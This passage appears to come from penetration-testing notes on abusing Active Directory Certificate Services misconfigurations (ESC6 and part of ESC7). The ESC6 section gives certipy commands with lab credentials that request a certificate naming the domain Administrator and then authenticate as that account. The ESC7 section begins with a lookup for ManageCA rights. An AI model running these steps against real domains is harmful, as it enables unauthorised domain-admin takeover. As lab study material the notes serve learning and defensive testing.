 3. Now it should be vulnerable to [ESC1](#esc1)

### ESC6
This only applies to a CA that has an attribute `EDITF_ATTRIBUTEALTNAME2` in registry value. Registry path is at `Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\range-CA01-CA\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy`. This attribute means that even when a template is configured to use an AD Object Subject Name, we could specify a Subject Alternative Name. This also means that all templates will be vulnerable

1. Find a vunlerable template with **certi**. The output of a vunlerable template to ESC6 will be as follows.
```bash
certipy find -u peter@range.net -p Password123 -dc-ip 192.168.86.183 -vulnerable -enabled -stdout
[[..snip..]]
ESC6                              : Enrollees can specify SAN and Request Disposition is set to Issue. Does not work after May 2022
[[..snip..]]
```
2. Request a certificate with an Alternative Subject Name *(upn)*
```bash
certipy req -u peter@range.net -p Password123 -target ca01.range.net -ca 'range-CA01-CA' -template 'User' -upn 'Administrator@range.net'
```
3. Authenticate with the template retrieved.
```bash
certipy auth -pfx administrator.pfx -dc-ip 192.168.86.183
```

### ESC7
This misconfiguration does not apply on certificate template but Certificate Authority (CA) configuration and applies when compromised user/group does have `Manage CA` permission on the CA. Hence, this special ACL can be ab(use)d to add another ACL, `Issue and Managed Certificate` to the controlled user/group in order to *issue* an invalid certificate request based on the certificate ID. 

**Requirements**

| Attributes                   | Value | Pre-requisite |
| ---------------------------- | ----- | ------------- |
| ManageCA                     | True  |               |
| Issue and Manage Certificate | True  | ManageCA      |


1. Verify CA configuration with [certipy](https://github.com/ly4k/Certipy). It should identify that the CA configuration is vulnerable to ESC7 attack with `lowpriv` user having `ManageCA` permission on the CA server.

```bash
certipy find -u 'lowpriv@bionic.local' -p 'Password1234' -dc-ip 10.66.66.3 -stdout -text -enabled -vulnerable
```
